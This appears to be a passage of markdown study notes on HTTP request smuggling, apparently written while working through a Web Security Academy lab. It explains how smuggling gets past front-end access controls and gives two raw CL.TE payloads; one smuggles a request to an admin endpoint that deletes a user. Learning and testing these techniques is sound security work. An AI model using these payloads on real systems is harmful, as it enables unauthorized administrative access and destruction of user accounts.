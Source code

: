- If your attack succeeds in interfering with a subsequent request, but this wasn't the "normal" request that you sent to detect the interference, then this means that another application user was affected by your attack. If you continue performing the test, this could have a disruptive effect on other users, and you should exercise caution.

# Exploiting Request Smuggling Vulnerability

## Using HTTP request Smuggling to BYpass Front-end Security Control

- in some application, the `front-end` web server used to implement some security controls, deciding whether to allow individual requests to be processed.
`example:`
- application use front-end server to implement `access control` restriction, it only forwards the request if the user is authorized to access requested URL
- back-end server response to every request without checking further authorization.
- in this situation `request smuggling` used to bypass the `access control` by smuggling restricted URL
`Example` current use have permission to `/home` but not `/admin`this can be bypass by

```
POST /home HTTP/1.1
Host: vuln-web.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 62
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
Host: vuln-web.com
foo: x

```

here front-end server see `/home`request and send to back-end,  and back-end server see `/admin` to second request and give access to resource.

- the final payload

```
POST / HTTP/1.1
Host: ace51f5e1ea45686807f30cc006500de.web-security-academy.net
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.114 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Connection: keep-alive
Transfer-Encoding: chunked
Content-Length: 145

0

GET /admin/delete?username=carlos HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 10

x=

```
